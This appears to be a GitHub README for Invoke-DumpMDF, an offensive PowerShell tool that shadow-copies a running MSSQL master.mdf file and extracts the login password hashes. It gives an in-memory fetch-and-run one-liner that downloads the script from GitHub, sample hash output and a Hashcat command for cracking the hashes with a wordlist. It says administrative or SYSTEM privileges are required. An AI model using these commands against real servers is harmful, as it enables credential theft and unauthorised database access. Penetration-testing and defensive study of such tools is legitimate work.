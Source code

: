 # Invoke-DumpMDF

Invoke-DumpMDF is a PowerShell script based on the original code by XPN (xpn.github.io). Invoke-DumpMDF creates a Volume Shadow Copy of the running MSSQL database, allowing the master.mdf file to be safely copied even while in use. It then extracts the login password hashes found within the master database.

Invoke-DumpMDF requires diskshadow to be installed (Default on Windows Server). This is to allow the running master.mdf database to be copied into a new fil before extraction. After completion, the script will cleanup after itself. 

Administrative or SYSTEM level privileges are required.

The resulting hashes can be cracked with Hashcat.

## Usage
```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-DumpMDF/refs/heads/main/Invoke-DumpMDF.ps1")

# Execute
Invoke-DumpMDF
```
  
## Example Output
```powershell
PS> Invoke-DumpMDF

Name  : sa
Value : 0x020050B40C7843AC5C196F9375549D3...

Name  : MS_PolicyEventProcessingLogin
Value : 0x0200F54F742AB9F142716E96CB13317...

Name  : MS_PolicyTsqlExecutionLogin
Value : 0x020043538738C5813669062A64AS0CC...
```
## Crack with Hashcat
```
hashcat.exe -m 1731 -a 0 -O 0x020050B40C7843AC5C196F9375549D3... Wordlists\rockyou.txt -r rules\best54.rule
```
## Further Reading 
- https://blog.xpnsec.com/extracting-master-mdf-hashes/
- https://medium.com/@jacobdiamond/extracting-sql-user-hashes-leveraging-bak-files-for-mssql-server-access-in-ad-pentest-b42e7bbcc88c
